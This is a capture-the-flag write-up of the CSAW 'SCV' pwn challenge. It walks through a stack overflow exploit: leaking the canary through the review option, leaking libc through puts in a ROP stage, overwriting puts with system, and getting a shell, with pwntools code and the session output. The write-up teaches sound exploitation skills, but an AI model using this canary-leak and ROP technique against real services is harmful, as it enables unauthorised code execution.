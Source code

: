 # SCV
## Pwn 100

#### shareef12

    SCV is too hungry to mine the minerals. Can you give him some food?

    nc pwn.chal.csaw.io 3764

This was fairly low point value pwnable. I expected it to be fairly straight
forward, but there were a few minor things that slowed down exploitation.
Stripped x86-64 binary presented a simple menu with three options.

    user@reversing:~/csaw/scv$ file scv
    scv: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
    linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
    BuildID[sha1]=8585d22b995d2e1ab76bd520f7826370df71e0b6, stripped
    user@reversing:~/csaw/scv$ ./scv
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>

The first option would read data into a buffer, the second would print the same
buffer back to you, and the third would simply return. Due to the simple
interface, seems like a pretty straight forward buffer overflow. Passing in a
large cyclic buffer seemed to cause it to flood my terminal with invalid input
messages. From here I started reversing statically.

Input from the user is obtained with a call to read() from stdin, with a size of
0xf8 bytes. Fortunately for us, the destination buffer starts at `$rbp-0xb0`. If
we write a buffer of at least 0xb8 bytes, we should be able to control RIP with
space for 0x40 bytes of ROP chain. Let's try it.

    user@reversing:~/csaw/scv$ python -c "print 'a'*0xb8 + 'bbbbcccc'"
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
    user@reversing:~/csaw/scv$ ./scv
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>1
    -------------------------
    [*]SCV IS ALWAYS HUNGRY.....
    -------------------------
    [*]GIVE HIM SOME FOOD.......
    -------------------------
    >>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
    -------------------------
    [*]SCV GOOD TO GO,SIR....
    -------------------------
    1.FEED SCV....
    2.REVIEW THE FOOD....
    3.MINE MINERALS....
    -------------------------
    >>3
    [*]BYE ~ TIME TO MINE MIENRALS...
    *** stack smashing detected ***: ./scv terminated
    Aborted (core dumped)

Oh no. Looks like there's a stack canary.

	user@reversing:~/csaw/scv$ checksec scv
	[*] '/home/user/csaw/scv/scv'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      No PIE (0x400000)

Since we can print our buffer, it shouldn't be hard to leak the canary value
though. All we have to do is provide enough input so that there are no null
bytes between the end of our buffer and the start of the canary. The canary is
at `$ebp-0x8` so if supply 0xa8 bytes, we should be able leak the canary value.

My initial attempt only printed the buffer. Examining the buffer in gdb showed
that the canary always started with a NULL byte. Writing an extra character
(0xa9 bytes total) allows us to leak the canary every time.

	user@reversing:~/csaw/scv$ python -c "print 'a'*0xa9"
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	user@reversing:~/csaw/scv$ ./scv
	-------------------------
	[*]SCV GOOD TO GO,SIR....
	-------------------------
	1.FEED SCV....
	2.REVIEW THE FOOD....
	3.MINE MINERALS....
	-------------------------
	>>1
	-------------------------
	[*]SCV IS ALWAYS HUNGRY.....
	-------------------------
	[*]GIVE HIM SOME FOOD.......
	-------------------------
	>>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	-------------------------
	[*]SCV GOOD TO GO,SIR....
	-------------------------
	1.FEED SCV....
	2.REVIEW THE FOOD....
	3.MINE MINERALS....
	-------------------------
	>>2
	-------------------------
	[*]REVIEW THE FOOD...........
	-------------------------
	[*]PLEASE TREAT HIM WELL.....
	-------------------------
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	��~�2�@@

Now that we can leak the canary, I wrote some code to parse it out and use it in
our overflow buffer so we pass the canary check.

```python
# Fill buffer with non-zero up until stack cookie
conn.recvuntil(">>")
feed_scv("a" * 0xa9)   # plus one (first char of the stack cookie is 0)

# Leak the stack cookie
log.info("Leaking stack cookie")
data = review_food()
cookie = "\x00" + data[0xa9:0xb0]
log.info("Stack cookie: " + cookie.encode("hex"))
```

Since this challenge involves remote exploitation, we can assume ASLR is on, so
we'll need some form of ROP to get code execution. Unfortunately, we only have
64 bytes to do this with (only 8 gadgets). Additionally, since this is x64
arguments are passed in registers making ROP a little harder. My initial plan
was to use read() to read in a second larger ROP chain into the data section and
pivot to it. This would allow us to use a ROP chain of arbitrary length and get
around the 64-byte restriction. However when the function returns, rdx was 0, and
I couldn't find a pop rdx gadget in the binary.

Instead of pursuing this further, I decided to try and leak the address to libc
so I could use that for gadgets instead. We can use puts() to read an address
from the GOT and use the provided copy of libc to calculate libc base. From
there, if we simply return back to the start of main(), we can restart the
program and exploit it again.

```python
# Build the stage0 payload
# Leak the addr of puts() from the GOT, then restart for stage 1
stage0 =  p64(SCV_POP_RDI_GADGET)
stage0 += p64(scv.got["puts"])
stage0 += p64(scv.plt["puts"])
stage0 += p64(SCV_MAIN) # Jump back to main
```

After leaking libc base, we calculate the address of system() and a `pop rdx`
gadget within libc. We then rop to `read(stdin, scv.got["puts"], 8)` to
overwrite puts() with the next 8 bytes from stdin. Follow this ROP chain with
yet another return to main(). We send the address of system after triggering the
chain to overwrite puts().

```
# Build the stage1 payload
# Overwrite puts() with system(), then restart for stage 2
stage1 =  p64(SCV_POP_RDI_GADGET)
stage1 += p64(0)        # stdin
stage1 += p64(pop_rsi)
stage1 += p64(scv.got["puts"])
stage1 += p64(pop_rdx)
stage1 += p64(8)
stage1 += p64(scv.plt["read"])
stage1 += p64(SCV_MAIN) # Jump back to main
```

Now that puts() is really system(), we can simply send `/bin/sh\x00` as our
buffer and view it to trigger a shell.

	user@reversing:~/csaw/scv$ ./solve.py
	[*] '/home/user/csaw/scv/scv'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      No PIE (0x400000)
	[*] '/home/user/csaw/scv/libc-2.23.so'
		Arch:     amd64-64-little
		RELRO:    Partial RELRO
		Stack:    Canary found
		NX:       NX enabled
		PIE:      PIE enabled
	[+] Opening connection to pwn.chal.csaw.io on port 3764: Done
	[*] Leaking stack cookie
	[*] Stack cookie: 0014175537504b80
	[*] Sending stage 0 (0xd8 bytes)
	[*] Found libc base: 0x7f76a648c000
	[*] Found libc system(): 0x7f76a64d1390
	[*] Found libc "pop rsi" gadget: 0x7f76a64ac2e8
	[*] Found libc "pop rdx" gadget: 0x7f76a648db92
	[*] Sending stage 1 (0xf8 bytes)
	[*] Overwrote puts() with system()
	[*] Sending /bin/sh
	[*] Switching to interactive mode
	$ ls
	flag
	scv
	$ cat flag
	flag{sCv_0n1y_C0st_50_M!n3ra1_tr3at_h!m_we11}
	$
	[*] Interrupted
	[*] Closed connection to pwn.chal.csaw.io port 3764
